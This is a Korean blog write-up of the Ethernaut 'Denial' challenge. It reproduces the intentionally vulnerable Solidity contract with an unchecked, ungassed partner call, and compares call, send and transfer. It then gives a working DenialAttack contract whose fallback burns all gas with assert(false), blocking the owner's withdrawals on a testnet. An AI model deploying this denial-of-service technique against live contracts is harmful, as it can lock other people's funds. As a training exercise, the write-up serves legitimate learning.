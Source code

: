 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 20) Denial
date: '2022-02-07 12:50:00'
author: 한성원
tags: ethernaut Denial vulnerability 20
categories: 취약점분석
---
```



# 👋 1. Denial
__Difficulty 7/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Owner가 withdraw하지 못하게하면 승리한다.
- Owner 인출불가 상태 만들기

- - -

## 코드 분석
분석은 주석에 있습니다!

```solidity
contract Denial {

    using SafeMath for uint256;
    //  파트너가 되어 자금을 1%씩 인출 할 수 있다.
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    //  Owner의 Address
    address payable public constant owner = address(0xA9E);
    //  마지막으로 withdraw했을때의 시간
    uint timeLastWithdrawn;
    // 파트너별 withdraw한 액수
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    //  누구나 자신 또는 다른 address를 파트너로 설정할 수 있다.
    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    //  withdraw 1% to recipient and 1% to owner
    //  owner와 파트너가 1%씩 인출 할 수 있다.
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        // 작성자의 의도는 call을 사용함으로써 partner가 고의적으로 revert해도 owner가 1%을 받게하기 위함이다.
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        // 마지막으로 withdraw한 시간
        timeLastWithdrawn = now;
        // 파트너가 withdraw한 amount
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    // 모든 입금을 허용한다.
    receive() external payable {}

    // convenience function
    // contract가 가지고 있는 ether의 수를 확인하는 함수
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }

}
```
- - -

## 풀이
### 들어가기 전
이 문제는 call과 transfer의 차이를 잘 알아야 풀 수 있는 문제이다.

#### transfer
수신 스마트 계약에는 fallback 함수가 정의되어 있어야 한다. 그렇지 않으면 전송 호출에 오류가 발생한다. `transfer`은 가스 제한량은 2300으로 `transfer`을 완료하기에 한 양이다.

#### send
`transfer`과 유사한 방식으로 작동하며 가스 제한도 2300이다. 하지만 `transfer`과 다르게 status를 `bool` 값으로 반환한다.

#### call
smart contract에 ETH를 보내는 권장되는 방법이다. call의 빈 인수는 수신 주소의 fallback 함수를 실행시킨다.

```solidity
(bool sent,memory data) = _to.call{value: msg.value}("");
```
`call`을 사용하여 contract에 정의된 다른 기능을 실행시키고 함수를 실행하기 위해 고정된 양의 가스를 보낼 수도 있다. 트랜잭션의 상태가 `bool`값으로 전송되고 return 값이 데이터 변수로 전송된다. 고정된 양의 gas를 보내지 않는다면 사용가능한 모든 gas를 보낸다.

<br/>

우리는 call을 사용해 가져오는 gas 모두 소모해 문제를 해결할 수 있다.
### 풀이
그렇다면 어떻게 모든 gas를 소모할 수 있을까?
gas를 모두 소모할 수 있는 방법이 몇가지 있다.
1. while(true){}
2. assert

* `assert`는 `revert`와 `require`과 다르게 모든 gas를 소모시킨다. 즉 assert가 아닌 다른 것을 사용하여 `revert`하면 gas를 전부 소모시킬 수 업없다.

* 필자는 reentrency를 사용하여 풀려하였지만 reentrency를 사용하였을때 Denial contract에 예기치 못한 ERROR를 만들 수는 있지만 owner에게 ETH가 전송되어 실패하였다. 그래서 가스를 다 소모할 수 있는 다른 방법을 사용하였다.

필자는 2번을 사용하여 문제를 풀었다.

우선 Denial Attack Contract에 fallback을 만들어보자
```solidity
contract DenialAttack {

    Denial denial;
    // 공격할 contract를 Denial contract로 설정
    constructor(address payable _denial) public {
        denial = Denial(_denial);
    }

    // attack을 진행하는 함수
    function attack() public {
        // DenialAttack contract를 파트너로 만들고 withdraw실행
        denial.setWithdrawPartner(address(this));
        denial.withdraw();
    }

    // withdraw이후 ETH가 전송될 때 fallback을 실행시키며 모든 gas소모
    fallback() external payable{
        //방법 1. while(true){}
        //방법 2. assert(false);
        assert(false);
        }

} 
```
<br/>
이 코드를 remix를 통해 Rinkeby network에 deploy한 후 attack()을 실행시켜주면 끝난다.

attack()을 실행시킨 후 transaction이 완료되면 etherscan에서 gas limit을 초과해 에러가 났다고 다음과 같이 나올 것이다.

![gas](./gas_denial.png)

<br/>


에러를 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
역시 ethernaut를 풀면서 solidity에 대해 다시 복습하고 있는것 같다. `send vs transfer vs call`에 대해서도 다시 찾아보며 공부할 수 있었고, assert, revert와 require의 차이점을 공부할 수 있었던 문제였던 것 같다. 

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org


```toc

```